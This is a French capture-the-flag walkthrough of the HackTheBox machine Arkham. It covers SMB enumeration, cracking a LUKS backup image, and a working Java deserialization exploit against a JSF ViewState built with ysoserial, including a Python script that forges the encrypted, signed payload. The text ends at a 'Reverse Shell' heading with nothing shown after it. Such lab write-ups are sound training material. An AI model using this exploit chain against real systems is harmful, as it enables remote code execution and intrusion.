

Informations
----
    Ip : 10.10.10.130   Created by : MinatoTW
    Level : Medium      Base points : 30
    
Résumé :  

Le système Arkham, disponible sur la platforme [HackTheBox](https://www.hackthebox.eu/), fut très intéressant et amusante. Le niveau de difficulté était plutôt élevée, étant donné qu’une bonne énumération était amplement suffisante. De plus, j’ai appris beaucoup de chose tout au long de l’exploitation des failles de ce système.  

- Il y'a le service `SMB` ouvert et nous avons les droits d'accès lecture dans le dossier `BatShare`.   
- Dans le dossier `BatShare` il y'avait un fichier `ZIP` comme nom `appserver.zip` et contenait un fichier `backup.img`.   
- C'était un fichier de type `LUKS` chiffré, une fois déchiffré avec hashcat nous avons accès à un système de fichier, ou il y'avait des fichiers de configurations de tomcat.   
- Un fichier XML particulièrement sensible qui nous permettaient de voir l'algorithme utilisé et le secret pour déchiffrer le `ViewState`.   
- Dans le système il y'avait une faille `Java Deserialisation`, ce qui nous permettaient d'éxecuter des commandes à distance sur le système.   
- Une fois le reverse shell effectué, dans le dossier d'`Alfred` il y'avait un fichier backup.zip, et contenant un fichier `OST`, une fois ce fichier déchiffré nous avons pu accéder à l'utilisateur `Batman`.   
- L'utilisateur Batman fesait partie du groupe `Administrators` dans le service `Active Directory`, et il y'avait une faille `UAC` pour justement créé un disque en tant que administrateur.

Nmap Scan
----

D'après le scan nous avons des services, le `HTTP` qui tourne sur `IIS` sur le port `80`, le `NETBIOS` également qui tourne dans le `135`, le service `SMB` qui tourne dans `139/445`. Et enfin le service qui tourne en `8080`.

    PORT     STATE SERVICE       VERSION
    80/tcp   open  http          Microsoft IIS httpd 10.0
    | http-methods: 
    |   Supported Methods: OPTIONS TRACE GET HEAD POST
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/10.0
    |_http-title: IIS Windows Server
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows 98 netbios-ssn
    445/tcp  open  microsoft-ds?
    8080/tcp open  http-proxy
    | http-methods: 
    |   Supported Methods: GET HEAD POST PUT DELETE OPTIONS
    |_  Potentially risky methods: PUT DELETE
    |_http-open-proxy: Proxy might be redirecting requests
    |_http-title: Mask Inc.
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port8080-TCP:V=7.01%I=7%D=6/17%Time=5D07DD75%P=x86_64-pc-linux-gnu%r(Ge
    SF:tRequest,2D52,"HTTP/1\.1\x20200\x20\r\nAccept-Ranges:\x20bytes\r\nETag:
    SF:\x20W/\"11382-1545655294000\"\r\nLast-Modified:\x20Mon,\x2024\x20Dec\x2
    SF:02018\x2012:41:34\x20GMT\r\nContent-Type:\x20text/html\r\nContent-Lengt
    SF:h:\x2011382\r\nDate:\x20Mon,\x2017\x20Jun\x202019\x2018:35:31\x20GMT\r\
    SF:nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\r\n<html>\r\n<head>\r\n
    SF:\t<meta\x20charset=\"utf-8\">\r\n\t<meta\x20name=\"viewport\"\x20conten
    SF:t=\"width=device-width,\x20initial-scale=1\.0\">\r\n\t<title>Mask\x20In
    SF:c\.</title>\r\n\t<meta\x20name=\"description\"\x20content=\"A\x20free\x
    SF:20responsive\x20website\x20template\x20made\x20exclusively\x20for\x20Fr
    SF:ittt\x20by\x20Themesforce\x20and\x20Sarfraz\x20Shaukat\">\r\n\t<meta\x2
    SF:0name=\"keywords\"\x20content=\"website\x20template,\x20css3,\x20one\x2
    SF:0page,\x20bootstrap,\x20app\x20template,\x20web\x20app,\x20start-up\">\
    SF:r\n\t<meta\x20name=\"author\"\x20content=\"Themesforce\x20and\x20Sarfra
    SF:z\x20Shaukat\x20for\x20Frittt\">\r\n\t<link\x20rel=\"icon\"\x20type=\"i
    SF:mage/png\"\x20href=\"favicons/favicon-16x16\.png\"\x20sizes=\"16x16\">\
    SF:r\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/bootstrap\.css\">\r\n\t<
    SF:link\x20rel=\"stylesheet\"\x20href=\"fonts/font-awesome-4\.3\.0/css/fon
    SF:")%r(HTTPOptions,8A,"HTTP/1\.1\x20200\x20\r\nAllow:\x20GET,\x20HEAD,\x2
    SF:0POST,\x20PUT,\x20DELETE,\x20OPTIONS\r\nContent-Length:\x200\r\nDate:\x
    SF:20Mon,\x2017\x20Jun\x202019\x2018:35:32\x20GMT\r\nConnection:\x20close\
    SF:r\n\r\n")%r(RTSPRequest,6A,"HTTP/1\.1\x20400\x20\r\nTransfer-Encoding:\
    SF:x20chunked\r\nDate:\x20Mon,\x2017\x20Jun\x202019\x2018:35:32\x20GMT\r\n
    SF:Connection:\x20close\r\n\r\n0\r\n\r\n")%r(FourOhFourRequest,4F5,"HTTP/1
    SF:\.1\x20404\x20\r\nContent-Type:\x20text/html;charset=utf-8\r\nContent-L
    SF:anguage:\x20en\r\nContent-Length:\x201113\r\nDate:\x20Mon,\x2017\x20Jun
    SF:\x202019\x2018:35:32\x20GMT\r\nConnection:\x20close\r\n\r\n<!doctype\x2
    SF:0html><html\x20lang=\"en\"><head><title>HTTP\x20Status\x20404\x20\xe2\x
    SF:80\x93\x20Not\x20Found</title></head><body>");
    Service Info: OSs: Windows, Windows 98; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_98
    
SMB
----
Si nous tentons la connexion avec `SMBMAP`, nous avons accès à un système de fichier disponible en droit de lecture, la commande ci-dessous nous montre que nous avons accès.

    root@Seyptoo:~/htb/box/Arkham# smbmap.py -H 10.10.10.130 -u invaliduser
    [+] Finding open SMB ports....
    [+] Guest SMB session established on 10.10.10.130...
    [+] IP: 10.10.10.130:445        Name: 10.10.10.130                                      
            Disk                                                    Permissions
            ----                                                    -----------
            ADMIN$                                                  NO ACCESS
            BatShare                                                READ ONLY
            C$                                                      NO ACCESS
            IPC$                                                    READ ONLY
            Users                                                   READ ONLY
            
Tentons la connexion et de voir les informations sur le dossier `BatShare`, pour le connexion je vais utiliser `SMBCLIENT` pour télécharger les fichiers nécessaires.

    root@Seyptoo:~/htb/box/Arkham# smbclient \\\\10.10.10.130\\BatShare -U invaliduser -m SMB2
    WARNING: The "syslog" option is deprecated
    Enter invaliduser's password: 
    smb: \> ls
      .                                   D        0  Sun Feb  3 14:00:10 2019
      ..                                  D        0  Sun Feb  3 14:00:10 2019
      appserver.zip                       A  4046695  Fri Feb  1 07:13:37 2019

                    5158399 blocks of size 4096. 2005442 blocks available
    smb: \> mget appserver.zip
    Get file appserver.zip? y
    getting file \appserver.zip of size 4046695 as appserver.zip (1447,0 KiloBytes/sec) (average 1447,0 KiloBytes/sec)
    root@Seyptoo:~/htb/box/Arkham# unzip appserver.zip 
    Archive:  appserver.zip
      inflating: IMPORTANT.txt           
      inflating: backup.img              
    root@Seyptoo:~/htb/box/Arkham# ls
    appserver.zip  backup.img  IMPORTANT.txt

Nous avons extrait 2 fichiers, le fichier `backup.img` et `IMPORTANT.txt`, essayons de voir le fichier `backup.img` correspond à quelle type de fichier et ça fonctionnalité.

    root@Seyptoo:~/htb/box/Arkham# file backup.img 
    backup.img: LUKS encrypted file, ver 1 [aes, xts-plain64, sha256] UUID: d931ebb1-5edc-4453-8ab1-3d23bb85b38e
    
C'est un fichier `LUKS` qui est chiffré. `LUKS` (Linux Unified Key Setup) est le standard associé au noyau Linux pour le chiffrement de disque créé par Clemens Fruhwirth. D'après les informations on dois se connecter avec un mot de passe utilisons la commande `kpartx` pour monter ce système de fichier.

    root@Seyptoo:~/htb/box/Arkham# kpartx -a -v backup.img

Si nous regardons dans les dossiers, nous voyons que le système est monté mais protégé par un mot de passe. Je vous mets une photo juste ci-dessous.

Nous avons le choix de cracker le mot de passe avec un programme spécifique ou bien d'utiliser la commande `binwalk` pour justement extraire des fichiers dans le système de fichier je vais vous montrez les deux méthodes.

Méthode 1
----
Pour la méthode numéro 1, nous allons cracker le système de fichier avec hashcat il y'a pas vraiment une grande complication, personnellement pour l'attaque bruteforce à pris environ 5 minutes. Pour la wordlist j'ai grandement simplifier la tâche car la boîte Arkham correspond justement à la série `batman`. Du coup j'ai créé ma wordlist en grepant batman dans `rockyou.txt`.

    root@Seyptoo:~/htb/box/Arkham# cat /usr/share/wordlist/rockyou.txt|grep batman > wd_list
    root@Seyptoo:~/htb/box/Arkham# hashcat -m 14600 -a 1 /dev/loop12 wd_list -o out.password
    root@Seyptoo:~/htb/box/Arkham# cat out.password
    password : batmanforever
  

    
Méthode 2
----
Pour la méthode 2, nous allons utiliser le programme `binwalk` pour extraire les fichiers nécessaires, donc pour cette méthode c'est inutile d'avoir un mot de passe car nous allons extraire les fichiers avec `binwalk`.

    root@Seyptoo:~/htb/box/Arkham# binwalk -e backup.img                                                                                                   

    DECIMAL       HEXADECIMAL     DESCRIPTION
    --------------------------------------------------------------------------------
    8542755       0x825A23        Zip archive data, at least v1.0 to extract, name: Mask/tomcat-stuff/
    8542831       0x825A6F        Zip archive data, at least v2.0 to extract, compressed size: 1006, uncompressed size: 2208, name: Mask/tomcat-stuff/tomcat-users.xml
    8543929       0x825EB9        Zip archive data, at least v2.0 to extract, compressed size: 1151, uncompressed size: 3498, name: Mask/tomcat-stuff/web.xml.bak
    8545167       0x82638F        Zip archive data, at least v2.0 to extract, compressed size: 709, uncompressed size: 1368, name: Mask/tomcat-stuff/context.xml
    8545963       0x8266AB        Zip archive data, at least v2.0 to extract, compressed size: 621, uncompressed size: 1172, name: Mask/tomcat-stuff/jaspic-providers.xml
    8546680       0x826978        Zip archive data, at least v2.0 to extract, compressed size: 367, uncompressed size: 832, name: Mask/tomcat-stuff/faces-config.xml
    8547139       0x826B43        Zip archive data, at least v2.0 to extract, compressed size: 2599, uncompressed size: 7678, name: Mask/tomcat-stuff/server.xml
    8549824       0x8275C0        Zip archive data, at least v2.0 to extract, compressed size: 18347, uncompressed size: 174021, name: Mask/tomcat-stuff/web.xml
    8568254       0x82BDBE        Zip archive data, at least v1.0 to extract, compressed size: 39, uncompressed size: 39, name: Mask/tomcat-stuff/MANIFEST.MF
    8568380       0x82BE3C        Zip archive data, at least v2.0 to extract, compressed size: 7353, uncompressed size: 7586, name: Mask/robin.jpeg
    8575806       0x82DB3E        Zip archive data, at least v2.0 to extract, compressed size: 105045, uncompressed size: 105374, name: Mask/me.jpg
    8680920       0x8475D8        Zip archive data, at least v2.0 to extract, compressed size: 687109, uncompressed size: 687160, name: Mask/mycar.jpg

Les fichiers ont été extrait avec succès, donc si vous regardez dans le dossier créé par `binwalk` vous verrez que les données sont bien présent dans le dossier.

    root@Seyptoo:~/htb/box/Arkham# cd _backup.img.extracted/
    root@Seyptoo:~/htb/box/Arkham/_backup.img.extracted# cd Mask
    root@Seyptoo:~/htb/box/Arkham/_backup.img.extracted/Mask# ls
    me.jpg  mycar.jpg  robin.jpeg  tomcat-stuff

HTTP - 8080
----
Pour cette partie nous avons des informations, vous verrez que dans le fichier `web.xml.bak` ce fichier sera la clé pour faire notre reverse shell dans ce système. Donc sur le port 8080 il y'a un chemin plutôt intéréssant, dans le chemin `userSubscribe.faces`. Si vous regardez bien dans le code source de la page il y'a un `ViewState` et cette partie sera vulnérable à l'attaque `Java Deserialisation`.
 
Revenons sur notre fichier `web.xml.bak`, dans ce fichier XML il y'a des informations très interéssant, il y'a le type d'algorithme utilisé et également le secret pour justement déchiffrer `ViewState`.

    <context-param>
        <param-name>org.apache.myfaces.SECRET</param-name>
        <param-value>SnNGOTg3Ni0=</param-value>
    </context-param>
    <context-param>
        <param-name>org.apache.myfaces.MAC_ALGORITHM</param-name>
        <param-value>HmacSHA1</param-value>
    </context-param>

Le secret pour chiffrer notre payload : `SnNGOTg3Ni0=` en texte : "JsF9876-".  
Algorithme utilisé : `HmacSHA1`.

ViewState
----
Il faut avant tout tester si le mot de passe correspond bien au déchiffrement de `ViewState`, j'ai créé un script en Python qui va justement déchiffrer `ViewState`

    import hmac
    import base64
    from Crypto.Cipher import DES
    from hashlib import sha1

    def pad(s):
            return s + (block_size - len(s) % block_size) * chr(block_size - len(s) % block_size)

    block_size = DES.block_size
    key = "JsF9876-"

    viewstate = "wHo0wmLu5ceItIi+I7XkEi1GAb4h12WZ894pA+Z4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0jW7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE="
    viewstate = base64.b64decode(viewstate)

    obj = DES.new(key, DES.MODE_ECB)
    decrypted_viewstate = obj.decrypt(pad(viewstate))
    print(decrypted_viewstate)
    
Si nous lançons le programme :

    root@Seyptoo:~/htb/box/Arkham# python test.py && echo -e
    �ur[Ljava.lang.Object;��s)lxpt1pt/userSubscribe.jspm�SK��9�^\iPU˘�s;

Ça ressemble à quelque chose de totalement inintellegible, c'est absolument normal car les données ont été sérialisé, nous avons quand même des informations, on peut voir que `userSubscribe` tourne dans un fichier `JSP` (Java Server Pages).

Création du Payload
----
Nous arrivons bientôt à notre reverse shell, nous allons créé notre fichier sérialisé et ensuite créé un script en Python pour attribuer le mot de passe au payload et ensuite d'envoyer au serveur pour que le système distant exécute notre payload et faire notre reverse shell dans le système.

Pour ce coup je vais utiliser un programme spécifique qui est très utile, l'outil se nomme `ysoserial`, c'est un outil pour créé des fichiers sérialisés et faire exécuter des choses dans le système distant.

Vous pouvez télécharger le programme [ici](https://github.com/frohoff/ysoserial), et ensuite vous allez build le projet avec `mvn` et pour lancer l'outil c'est dans le sous-répértoire `target`.

    root@Seyptoo:~/htb/box/Arkham/ysoserial/target# java -jar ysoserial-0.0.6-SNAPSHOT-all.jar
    [...SNIP...]
    CommonsCollections5 @matthias_kaiser, @jasinner commons-collections:3.1                                                                                                
    [...SNIP...]
    
Après avoir cherché un bon moment le type de payload approprié au système c'était `CommonsCollections5`, nous allons essayer d'envoyer des paquets `ICMP` vers notre machine pour tester si la machine distante nous envoie les paquets.

    root@Seyptoo:~/htb/box/Arkham/ysoserial/target# java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 'ping 10.10.15.92' > payload
    
Il faudrait ensuite convertir ça en `HMACSHA1` et ensuite en `BASE64`, comme je suis de bonne humeur je crée un script en Python rien que pour vous.

    #coding:utf-8

    import sys
    import hmac
    import base64

    from Crypto.Cipher import DES
    from hashlib import sha1

    class ARK_OBJ(object):
        def __init__(self, block_size=8):
            '''
                This function will
                handle the arguments in function __init__().
            '''
            try:
                self.args       = sys.argv[1]
                self.args_      = sys.argv[2]
            except IndexError as output_file:
                sys.exit("Usage: python %s <payload-file> <output>" %(sys.argv[0]))

            self.block_size = block_size

        def pad(self, plain):
            '''
                This function will handle the
                encryption of the data in function __pad()__.
            '''
            return plain + ((self.block_size - len(plain) % self.block_size) * chr(self.block_size - len(plain) % self.block_size)).encode('ascii')

        def reverse_dt(self):
            '''
                This function will allow us
                to manipulate with the hashes.
            '''
            with open(self.args, "rb") as self.serial:
                self.payload = self.serial.read()

            self.key          = b'JsF9876-'
            self.payload      = self.pad(self.payload)

            # This part we will encrypted in
            # hmac and then put it in base64 __reverse_dt()__.

            self.convert_des  = DES.new(self.key, DES.MODE_ECB)
            self.text_data    = self.convert_des.encrypt(self.payload)
            self.convert_hmac = hmac.new(self.key, self.text_data, sha1).digest()

            with open(self.args_, "wb") as write_file:
                write_file.write(base64.b64encode(self.text_data + self.convert_hmac))

    if __name__ == "__main__":
        q = ARK_OBJ()
        q.reverse_dt()
        
 Et ensuite l'utilisation du programme est super simple, le premier argument vous devez spécifier votre fichier et le deuxième argument votre fichier de sortie.
 
    root@Seyptoo:~/htb/box/Arkham/ysoserial/target# python file.py payload output_file
    root@Seyptoo:~/htb/box/Arkham/ysoserial/target# cat output_file
    o4swGdxTZXw1mKtPxFkjUuWrKOBMVnhQ7RbMizpCb4xVYti30eaLecyiLLU7plNhjPFRnShy4IlIzxo0JHimBY3Uq1igjemgy0Ki4udfDHCBAJC2Yt+Eq3hlEwGdEWrah3tqcdo5Gxzenm+TobetH0+aG8+iCEB1RbCm7b/RwuOINGcnD+FO3DfRKu9gMF+hys2vYzpsGEyHK3knl7tEaywlBVCuHcXMqHLkcdxxT/xmSmtDFG85aQTVagEZSOEEX9bCEH73rYHKIdkiMmo3tRSv0aFcuTCzo9ywZEOE7bULbrBQyiDX34vkaoTgGwZx5xiJxcuYu0CBGPZRDq1UBGH1QEaZ391dmKFPiBhIqgml/ErcnLpXhN2CNsbBu9HHKSuy0lTdaYJifqCf5zOXppnKQiTkInD9AN+IjrIKoKhLslblPlDOJTrY6IWKCYEH9ZL8tl0EWKQbiDEBanGkxqkFjjIIqXZFoV+TjkS1FnVO/oHWBB6y1rXJo3U1C5yWD2YmTWm4GDisEHwUAFbDTHvZSVfjA0tLKeDOxOM/8vgIApW1PlnAuOltjvtrVgAjUuoY6NO8h6x3ioFXuSojJj0bbeoeG7kVjJZD7p9o4JtufXDtpaElTEsYzbvfwgpzyOnbHFri+OoTJP9LO6zQjyBFq5FvvhNyPwza7MocS3WLI6L7jjRFBAj/a48lPBfj3HySlKnWNAVyWskTs1o8Hdb3TC7cRUzFTUer8AfWEDvtm3v+IESFimUAOxHOFFR7oyzf03aooyxlupeOblKVsHkHnBemhyfnxtKI7+bJ3EqgWfupTUMw2GUM1xZCs/3tZRbc6ulq45nE9ps3Ao9PQadiP3gi5yNpoKyaKP3GuGkZTr2W1Tevu2FmdzxVgkIvQHYhQvw4tg/W90wu3EVMxe5N7cpJQ5Gl3lqAftAUN2EPpqoCDm/ldyARkewpYRJ9XjpjF/EcTrt/fnejLvYdO+BR5KpeUlYt8voC9D/jEKdO5AUum+ldL14iQQVDR2crLcka9lf/XnUnzlQ72iu6zRk9BVHFAGuaBqLS7bchBDmZykIk5CJw/db3TC7cRUzF08Udf9g/4PoLZwKzd/QUeKSzGm5JdFPDPWKHTvaqzS+ocbAXBqBvmCnR8Hwe55Tov3utbD0Pyq3mhe4htTKB2O7l0dR9kK+OWa1x14dolqUW5qz5wuWajIKmJg0aiagXfwC6W7ATzAwSbkbvpNj3Ij4Y6crGmy9mFKRFsr/PBrHPYHrCoLDObr/dWUcnU9SkV/byJR1QkOTkc+Vqj7d88xxXsUy+dL9wPVElFfuo2EEhS1FRDmchOjv8e5HyUaM3ObK1ByNnxYcrn1otpe47K27rgrv31ujZnD1gq0qXbpX5pBUxtgeZO1s3lsDMDjWu36Nj8l51BQbQCWDaQWOgL63GQrmXQx5n96T9PqlXQkh95rlp3gk/5PHiPH0hgDaL3lLHwGZ7MMxpW2fDgeBvE68Izbftt/nTpiRl7A+DFCK+kpC9Kn71vzhtgjl5P0s4/QUigK6H+92Gy2cqmu68JBGtu2efXvM64vieDI/0t6i3EmsS4trV6/mzUiDGugoM3Y9DQ77qlt9fVI0d1YhOtKQP5TzdC7zaxpg6IAKcLXG3EmsS4trV69qeqsRMq+ORGeWiGX3s4SVLl9PfxTH5uoT5WYyFyRQdjtGDAduLpu1LIvCjZkDeDI1yqv8ai+VrIRQPjqnnICliXw0GruDEcYPdjpCt2tP7S5fT38Ux+bqE+VmMhckUHY7RgwHbi6btuCNTYpT2pPtaIi3QStIFXqjkO+7eDUuWZXdtviVwAA/aJC+MGZeldX6w11EpdknLYOtigP7PKEEA6vQhhAWtHvTaMDSakBZ9VtZWVZH2nQ8k3hKqRB8kJzWIZhqip5xmL3ZE318bTqE7/HuR8lGjNzmytQcjZ8WHK59aLaXuOyvzRQ05jPPFo3Ru+fitqP3850NCtzETbU6+4NFgkIRjSDn5mPO6J0Uc/NwZfg8+6kEB2Ekbz1EpDYC+/FlJ3S+ld4ROVLoTrPk7pNNk1bkTEsiBvdkwiHGhrdSRqyL34OxROiCGKIVe73TuYT3iCGRTajzQ1z6XoCObV41a9S7qSEgbK/ISQ3zAvUr0vZ7DkPYjmxIMwK2svQ3jv27C1Q5p1sIcQ6eCfFrlotOT+E/H2BCqBXXQp9n/olQZftpJjEHKKtspHu1s+w4sIczNBd6QUYT30HTLpD0+PYWKcReCkaQTq1VWc/EtgfAOwB/b8qwqvdpryuqdeQ9mJk1puBg4svFF6zgTsRGRNvsbo3xn7a+wLCda3PYGxQ75A5bc64JnoilAwTLv1/d5cGgz2UfJeZ+ig43TdSx1mZL8SnCQI/DfMEFqxb8oJF/7UMGPbPLbLmk7MENYWOKbOMwx5ct7zeaPiGooxw18jSTyOzv0VL2hp1uZ8cQdh3tqcdo5GxxojiDGjbw5cM4LNfLM1+B3L2JK5JNzAXRXZA6yxRwv7R29XIE8k2UitNEoiZm79BtT+3b4cqJfnwh62ZrdzE0+b+2chZLGoEVQ7bf1h4TCk8uihjrYHCAm9zC9g7UMCfdxFk3lDzU04FmSmF1FllmyJf9eg1oS6vjGDXN4Fxd8H5uRqvMsIcIlVGbJ0IBy9+2/cyEp1XvK8n5Gr+Ytr+K9dNWLrWMDX2LxHe/hKqDzuhGbuUoHkHXZOCO5Iga5she/yXoaJTQ1sIBsVm7CWwc1ba594Do3xzsPUCPmunYgU7r/gISZZ1oDvzYryaWVV+LHRmir8lLknqMM+dM=
 
 Le serveur distant nous renvoie bien les paquets dans notre système Linux.
 

Reverse Shell
----
